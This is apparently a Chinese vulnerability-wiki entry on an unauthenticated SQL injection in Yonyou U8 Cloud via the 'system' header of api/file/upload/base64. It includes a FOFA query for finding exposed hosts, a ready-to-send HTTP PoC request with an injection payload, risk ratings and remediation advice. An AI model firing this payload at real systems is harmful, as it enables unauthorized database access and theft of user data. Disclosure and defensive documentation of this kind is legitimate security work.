

# 用友U8 Cloud api/file/upload/base64 system头SQL 注入

## 条目说明

- 对象与具体问题：用友U8 Cloud；api/file/upload/base64 system头SQLi
- 版本、配置及部署条件：SQL Server @@version；版本未列
- 认证与权限前提：无Cookie样例
- 核验边界：已完成原始 Markdown 的文本审阅；未执行 PoC、未访问目标、未视检截图。来源所述影响与复现结果不等于本库独立验证。

## 证据边界与更正

以下记录原始资料的证据边界。可以由原文确定的产品、编号及格式问题已在本条修订；没有原始证据的版本、响应和补丁信息仍待核实。

- 漏洞参数为system请求头，不是Base64解码行为，标题宜补参数
- 与139 api/hr同类system头注入应关联待根因，不凭同头强并
- 已发布更新无公告/版本证据；请求未围栏，结果仅图

## 操作风险

现有材料未完整列明副作用；示例不保证只读或无状态变化。保留原示例供静态分析；仅可在明确授权的隔离测试环境验证，事先准备备份与回滚。凭据示例如含星号，仅保留首尾用于说明，不能直接使用。

## 技术资料与来源记录

## 漏洞描述

用友U8 Cloud base64接口处存在SQL注入漏洞，未授权的攻击者可通过此漏洞获取数据库权限，从而盗取用户数据，造成用户信息泄露。

## 影响范围

用友U8 Cloud

## **漏洞状态**

| 漏洞细节 | 漏洞POC | 漏洞EXP | 在野利用 |
|------|-------|-------|------|
| 是 | 已公开 | 已公开 | 已知 |

### 风险等级

| 维度 | 评价 |
|----|----|
| 威胁等级 | 高危 |
| 影响面 | 广 |
| 攻击者价值 | 中 |
| 利用难度 | 低 |

## 漏洞复现

FOFA：app="用友-U8-Cloud"

POC/EXP：

```http
GET /u8cloud/api/file/upload/base64 HTTP/1.1
Host: 127.0.0.1:8888
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/122.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
system: -1' or 1=@@version--+
```





## 修复方案

**官方修复：**

关闭互联网暴露面或接口设置访问权限

目前软件已发布安全修复更新，受影响用户可以联系厂商获取补丁。


---

> 来源：SourByte05/Vulnerability-Wiki-PoC（https://github.com/SourByte05/Vulnerability-Wiki-PoC）
